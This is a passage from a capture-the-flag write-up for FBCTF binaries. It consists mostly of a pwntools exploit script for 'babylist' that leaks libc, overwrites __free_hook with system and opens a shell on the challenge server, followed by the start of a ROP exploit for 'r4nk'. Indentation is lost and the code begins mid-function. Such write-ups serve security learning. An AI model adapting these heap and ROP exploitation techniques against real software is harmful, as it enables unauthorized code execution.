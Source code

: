 ```python
if p1 >= 0x80000000:
p1=p1-0x100000000
return p1
#context.log_level='debug'
libc=ELF("./libc-2.27.so")
#p=process('./babylist')
p=remote("challenges.fbctf.com",1343)
add("Origin")
for x in range(0x40):
num(0,1)
for x in range(8):
cp(0,str(x))
for x in range(0,8):
num(x,1)
show(8,0)
p.readuntil("= ")
p1=cal(int(p.readline()[:-1],10))
show(8,1)
p.readuntil("= ")
p2=cal(int(p.readline()[:-1],10))
p2=p2<<32
base=p2+p1-(0x7ffff782eca0-0x7ffff7443000)
log.warning(hex(base))
libc.address=base
for x in range(0,8):
free(x)
add("0")#0
sh=0x68732f6e69622f
num(0,(sh&0xffffffff))
num(0,(sh>>32))
for x in range(0x20-2):
num(0,"1")
cp(0,"1")#1
cp(0,"2")#2
cp(0,"3")#3
num(0,"1")
num(1,"1")
add(p64(libc.sym['__free_hook']))
add("/bin/sh")
add(p64(libc.sym['system']))
num(3,0)
p.interactive()
```
# r4nk
The binary is simple and the vulnerability is obviously.
we can leak and set our rop chain(becouse of cdqe we can't use libc_address directly).
```python
from pwn import *
def cmd(n):
p.sendlineafter("> ",str(n))
def show():
cmd(1)
def rank(idx,r):
cmd(2)
cmd(idx)
cmd(r)
def cal(n):
return (n-0x000000000602080)/8
rdi=0x0000000000400b43
rsi=0x0000000000400b41
read=0x0000000004005F0
exit=0x000000000400630
```

[1]: http://cenalulu.github.io/linux/about-denormalized-float-number/
[2]: https://www.h-schmidt.net/FloatConverter/IEEE754.html
[3]: https://github.com/R3t-team/R3t-team